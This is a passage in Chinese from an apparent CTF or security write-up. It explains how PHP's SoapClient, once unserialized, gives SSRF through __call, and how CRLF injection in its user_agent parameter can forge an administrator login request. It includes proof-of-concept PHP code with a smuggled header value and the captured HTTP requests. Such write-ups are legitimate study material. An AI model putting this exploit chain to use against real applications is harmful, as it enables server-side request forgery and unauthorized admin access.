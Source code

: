 也就是说，在调用一个类的不可访问的方法的时候，就会去调用`__call`方法。

所以我们只需要找到一个类，重载了__call方法，并且可以发请求的就可以了,然后找到了`soapClient`这个类：

示例如下：

```php
$client = new SoapClient(null, array('location' => "http://127.0.0.1:9999",
                                     'uri'      => "http://test-uri/"));
$se = serialize($client); 
var_dump($se);
$unse = unserialize($se);
$unse -> getcountry();
```

然后就会发现发送了下面的一个数据包：

```php
POST / HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: PHP-SOAP/5.5.9-1ubuntu4.11
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://test-uri/#getcountry"
Content-Length: 386

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://test-uri/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getcountry/></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

这样我们就有了SSRF，可以发请求了。我们需要的是用SSRF来登录管理员账号，这里的soapClient只可以用来发送xml的数据，而且`Content-Type`也不符合要求，那怎么办呢？ 

### 0x4 CRLF来助攻，伪造登录请求

根据我的测试，soapClient存在CRLF的参数有两个,一个是`user_agent`,一个是`uri`。

测试代码如下：

**user_agent**

```php
$location = "http://127.0.0.1:9999/2.php?action=login";
$uri = "http://127.0.0.1/";
$event = new SoapClient(null,array('user_agent'=>"test\r\ntest:test",'location'=>$location,'uri'=>$uri));
$event->getcountry();

//收到的请求为
/*
POST /2.php?action=login HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: test
test:test
Content-Type: text/xml; charset=utf-8
SOAPAction: "http://127.0.0.1/#getcountry"
Content-Length: 387

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/" xmlns:ns1="http://127.0.0.1/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:SOAP-ENC="http://schemas.xmlsoap.org/soap/encoding/" SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/"><SOAP-ENV:Body><ns1:getcountry/></SOAP-ENV:Body></SOAP-ENV:Envelope>
*/
```
